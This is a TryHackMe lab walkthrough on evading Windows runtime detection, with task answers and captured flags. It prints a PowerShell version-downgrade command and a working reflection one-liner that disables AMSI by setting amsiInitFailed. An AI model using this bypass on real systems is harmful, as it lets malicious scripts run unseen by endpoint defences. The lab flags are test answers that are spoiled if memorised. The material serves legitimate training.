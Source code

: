 ```yaml
---
title: Runtime Detection Evasion
author: CYB3RM3
name: CYB3RM3 | Runtime Detection Evasion
date: 2022-10-16 15:22:31 +0100
categories: [TryHackMe, RedTeam]
tags: [Malware, Evasion, SOC, RedTeam]
---
```


Learn how to bypass common runtime detection measures, such as AMSI, using modern tool-agnostic approaches.

THM Room [https://tryhackme.com/room/runtimedetectionevasion](https://tryhackme.com/room/runtimedetectionevasion)


## TASK 1 : Introduction
### Start the provided machine and move on to the next tasks. 
No Answer

## TASK 2 : Runtime Detections
### Read the above and answer the question below. 
No Answer

### What runtime detection measure is shipped natively with Windows?
Answer : AMSI

## TASK 3 : AMSI Overview
### Read the above and answer the question below. 

No Answer.

### What response value is assigned to 32768?

![AMSI](/images/thm/runtimedetectionevasion/runtimedetectionevasion_1.png)
_AMSI_

Answer : AMSI_RESULT_DETECTED

## TASK 4 : AMSI Instrumentation


### Read the above and answer the question below. 

No Answer.

### Will AMSI be instrumented if the file is only on disk? (Y/N)

 "AMSI is instrumented from System.Management.Automation.dll, a .NET assembly developed by Windows; From the Microsoft docs, "Assemblies form the fundamental units of deployment, version control, reuse, activation scoping, and security permissions for .NET-based applications." The .NET assembly will instrument other DLLs and API calls depending on the interpreter and whether it is on disk or memory."

No the code should be run.

Answer : N

## TASK 5 : PowerShell Downgrade


### Read the above and practice downgrading PowerShell on the provided machine. 

IN CMD.EXE :

```console
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\THM-Attacker>powershell -Version 2
Windows PowerShell
Copyright (C) 2009 Microsoft Corporation. All rights reserved.

PS C:\Users\THM-Attacker> cd .\Desktop
PS C:\Users\THM-Attacker\Desktop> type .\flag.txt
THM{p0w3r5h3ll_d0wn6r4d3!}
PS C:\Users\THM-Attacker\Desktop>
```
{: .nolineno }

No Answer.

### Enter the flag obtained from the desktop after executing the command in cmd.exe.

Answer : THM{p0w3r5h3ll_d0wn6r4d3!}

## TASK 6 : PowerShell Reflection


### Read the above and practice leveraging the one-liner on the provided machine. To utilize the one-liner, you can run it in the same session as the desired malicious code or prepend it to the malicious code.

No Answer.

### Enter the flag obtained from the desktop after executing the command.

```powershell
PS C:\Users\THM-Attacker\Desktop> [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
PS C:\Users\THM-Attacker\Desktop> type .\flag-1.txt
THM{r3fl3c7_4ll_7h3_7h1n65}
```
{: .nolineno }

Answer : THM{r3fl3c7_4ll_7h3_7h1n65}

## TASK 7 : Patching AMSI

### Read the above and execute/observe the script on the provided machine.

No Answer.

Enter the flag obtained from the desktop after executing the command. 

```powershell
PS C:\Users\THM-Attacker\Desktop> .\bypass.ps1
True
PS C:\Users\THM-Attacker\Desktop> type .\flag-2.txt
THM{p47ch1n6_15n7_ju57_f0r_7h3_600d_6uy5}
```
{: .nolineno }

Answer : THM{p47ch1n6_15n7_ju57_f0r_7h3_600d_6uy5}

## TASK 8 : Automating for Fun and Profit
### Read the above and continue to the next task. 
No Answer.

## TASK 9 : Conclusion 
### Read the above and continue learning! 
No Answer.